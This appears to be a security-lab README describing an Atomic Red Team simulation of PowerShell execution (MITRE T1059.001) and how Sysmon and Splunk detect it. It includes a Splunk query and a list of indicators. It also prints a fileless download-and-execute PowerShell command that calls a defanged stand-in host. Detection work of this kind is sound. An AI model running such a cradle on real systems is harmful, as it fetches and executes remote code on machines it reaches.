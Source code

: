 # T1059.001 – PowerShell Execution (Atomic Red Team)

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Description

We use an Atomic Red Team payload to simulate a fileless PowerShell attack that downloads and runs a script remotely. This simulates common adversary behavior seen in malware, ransomware loaders, and APTs.

### Atomic Command Used:

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This payload:

* Bypasses PowerShell execution policies
* Uses `IEX` (Invoke-Expression) to run code from memory
* Pulls down remote scripts using `Net.WebClient`

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* **Sysmon Event ID 1** logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Use of `-nop`, `-exec bypass`
* `IEX`, `Net.WebClient`, or `DownloadString`
* Long base64 or obfuscated strings

---

## ✅ Result

* The attack was logged by Sysmon and successfully forwarded to Splunk.
* Analysts can see full command line arguments in Splunk's search.
* The query clearly shows the suspicious PowerShell activity.

---

## 📸 Screenshots

![PowerShell Attack](screenshots/T1059.001%20attack.PNG)
![Detection Confirmed](screenshots/shows%20that%20T1059.001%20can%20spot%20this%20kind%20of%20attack.PNG)
![Search PowerShell](screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)
![Command Explained](screenshots/what%20the%20command%20does.PNG)
![Indicators](screenshots/what%20to%20look%20for%20in%20powershell.PNG)
